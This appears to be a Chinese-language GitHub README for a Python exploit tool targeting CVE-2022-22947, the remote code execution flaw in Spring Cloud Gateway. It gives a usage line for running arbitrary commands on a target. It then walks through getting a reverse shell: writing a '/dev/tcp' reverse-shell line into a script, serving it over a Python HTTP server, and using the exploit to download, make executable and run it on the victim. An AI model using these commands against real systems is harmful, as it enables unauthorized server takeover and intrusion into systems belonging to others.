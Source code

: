 # 工具介绍

嘛。天天在外面跑项目，终于抽点时间研究一下这个漏洞的poc了。

**这东西吧有点问题，如果 ~~输错命令~~ 呀或者~~输入的命令不存在(就是有些命令是需要安装才有的)~~再或者你~~输入的命令没有返回结果~~的，就会返回上一个命令的结果。嘛没办法。不是exp的问题。**

就随便写了一个。辣鸡。大佬看着辣眼睛请绕过。

写这个exp的时候碰到了很多的问题把。

1. 网上的有个poc的那个是这样写。多了一个new String[]。然后发现不能执行带有空格的命令，想了好些办法，比如空格绕过$IFS呀啥的都不行。然后看到另一个poc可以。想不通在哪找了好多地方的问题。还以为是我写错了。最后仔细对比才发现。使用的地方差了一点点。

![image-20220304141150921](images/image-20220304141150921.png)

2. 这个rui的http里面的东西虽然可以瞎写好些。但是如果没写http:// 就不行。一开始我写漏了。就写了一个127.0.0.1结果失败了。

![image-20220304141538271](images/image-20220304141538271.png)

# 工具的使用

使用:

```
python CVE-2022-22947.py 目标 "执行的命令"
```

![image-20220304140157102](images/image-20220304140157102.png)

![image-20220304140213492](images/image-20220304140213492.png)


反弹直接执行反弹shell的命令好像是不行的。

我是先新建了一个shell.sh，然后在文件中写入反弹shell的命令。
```
bash -i >& /dev/tcp/ip/prot 0>&1
```
然后在shell.sh的目录下，用python开启一个http服务。
```
python3 -m http.server 8080
```
再然后用wget下载一个shell.sh。
```
python CVE-2022-22947.py 目标 "wget http://xxxxx:8080/shell.sh"
```
再再然后给一个文件的执行权限。
```
python CVE-2022-22947.py 目标 "chmod +x shell.sh"
```
最后执行shell.sh文件。
```
python CVE-2022-22947.py 目标 "bash shell.sh"
```
这样就把shell反弹出去了。
